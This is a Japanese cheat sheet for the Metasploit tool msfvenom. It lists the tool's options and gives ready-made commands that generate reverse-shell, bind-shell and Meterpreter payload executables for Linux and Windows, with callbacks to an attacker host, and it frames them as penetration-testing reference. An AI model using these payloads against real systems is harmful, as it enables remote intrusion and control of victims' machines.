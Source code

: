 ## 概　要
>Metasploitの１つのモジュールでシェルコードやペイロードをコマンドで作成できるとても便利なツール。  
  
## オプション
- `-p`：使用するペイロード
- `LHOST`：攻撃後接続先となるホストのIP（KaliLinuxのIP）
- `LPORT`：攻撃後接続先となるポート番号
- `x`：ペイロード作成時に元となるファイル　※カレントディレクトリに置いてください
- `f`：ファイル形式
- `o`：出力ファイル名　※xオプションで指定したファイルとは違う名前
- `h`：ヘルプオプション
  
## 基本的な使い方（モデルはshell_codeのペイロード）
### Linux
```bash
## 32 bits
msfvenom -p linux/x86/shell/reverse_tcp LHOST=$lhost LPORT=$lport -f elf > shell.elf
msfvenom -p linux/x86/shell_reverse_tcp LHOST=$lhost LPORT=$lport -f elf > shell.elf
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=$lhost LPORT=$lport -f elf > shell.elf
```  
  
```bash
## 64 bits
msfvenom -p linux/x64/shell/reverse_tcp LHOST=$lhost LPORT=$lport -f elf > shell.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$lhost LPORT=$lport -f elf > shell.elf
msfvenom -p generic/shell_bind_tcp RHOST=$rhost LPORT=$lport -f elf > term.elf
```
  
### Windows
```cmd
## 32 bits
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$lhost LPORT=$lport -f exe > shell.exe
msfvenom -p windows/meterpreter_reverse_tcp LHOST=$lhost LPORT=$lport -f exe > shell.exe
msfvenom -p windows/powershell_reverse_tcp LHOST=$lhost LPORT=$lport -f exe > shell.exe
msfvenom -p windows/shell/reverse_tcp LHOST=$lhost LPORT=$lport -f exe > shell.exe
msfvenom -p windows/shell_reverse_tcp LHOST=$lhost LPORT=$lport -f exe > shell.exe
```   
     
```cmd
## 64 bits
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$lhost LPORT=$lport -f exe > shell.exe
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=$lhost LPORT=$lport -f exe > shell.exe
msfvenom -p windows/x64/shell/reverse_tcp LHOST=$lhost LPORT=$lport -f exe > shell.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$lhost LPORT=$lport -f exe > shell.exe
```   
   
## 参　考
[msfvenom とは何なのか - Qiita](https://qiita.com/tanaka-nice/items/0ec926951ffa5a4d197c)  
[msfvenomを使ってペイロードを作成し侵入テストを行う - Qiita](https://qiita.com/seiteisama/items/a2e3f0d6ade54214f8d8)